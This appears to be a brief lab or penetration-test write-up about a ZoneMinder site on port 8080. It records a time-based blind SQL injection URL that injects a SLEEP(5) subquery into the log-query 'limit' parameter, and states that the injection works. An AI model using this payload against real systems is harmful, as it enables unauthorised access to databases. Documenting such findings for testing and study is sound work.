



# 8080

There is a zoneminder website:

`http://192.168.212.52:8080/zm/index.php?view=request&request=log&task=query&limit=100;(SELECT%20*FROM%20(SELECT(SLEEP(5)))OQkj)#&minTime=1466674406.084434`

We get a return info back:

We have SQL injection:

SQLMap required so not done after this.

